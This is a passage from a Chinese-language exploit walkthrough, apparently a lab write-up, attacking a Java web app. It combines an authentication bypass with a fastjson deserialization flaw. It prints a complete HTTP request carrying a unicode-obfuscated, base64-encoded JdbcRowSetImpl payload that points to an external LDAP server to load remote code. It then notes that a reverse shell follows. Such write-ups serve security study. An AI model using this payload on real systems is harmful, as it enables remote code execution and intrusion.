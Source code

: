 获取到Session `JSESSIONID=FC8D9FE4BBDAE0BC554377DB1CAFCBE8`​

发现成功执行

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-91ecd660476d2582721376a6f361366c9b2c0864.png)​

‍

再来查看控制器

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4a264d18ef19b375a9a69ddf40e64718ca52f525.png)​

可以发现传入data这个json字符串然后进行鉴权并且给到`JSON.parse`​解析，其实可以想到绕过黑名单+fastjson打C3p0不出网这个思路，也可以直接打jndi注入吧，跟进`SecurityCheck`​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-683dace3775c5e46b753fc5ffcabf2cb2ed0c45c.png)​

可以想到用16进制或者unicode来进行绕过黑名单，所以有以下打法

‍

### JNDI注入(出网+jdk低版本)

本地用的是jdk8u65

‍

```yaml
POST /admin/user%0d HTTP/1.1
Host: localhost:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

data={{urlenc(eyJAdHlwZSI6Ilx1MDA2M1x1MDA2Zlx1MDA2ZFx1MDAyZVx1MDA3M1x1MDA3NVx1MDA2ZVx1MDAyZVx1MDA3Mlx1MDA2Zlx1MDA3N1x1MDA3M1x1MDA2NVx1MDA3NFx1MDAyZVx1MDA0YVx1MDA2NFx1MDA2Mlx1MDA2M1x1MDA1Mlx1MDA2Zlx1MDA3N1x1MDA1M1x1MDA2NVx1MDA3NFx1MDA0OVx1MDA2ZFx1MDA3MFx1MDA2YyIsImRhdGFTb3VyY2VOYW1lIjoibGRhcDovLzEwNy4xNzQuMjI4Ljc5OjEzODkvQmFzaWMvQ29tbWFuZC9jYWxjIiwiYXV0b0NvbW1pdCI6dHJ1ZX0=)}}
```

‍

直接反弹shell即可
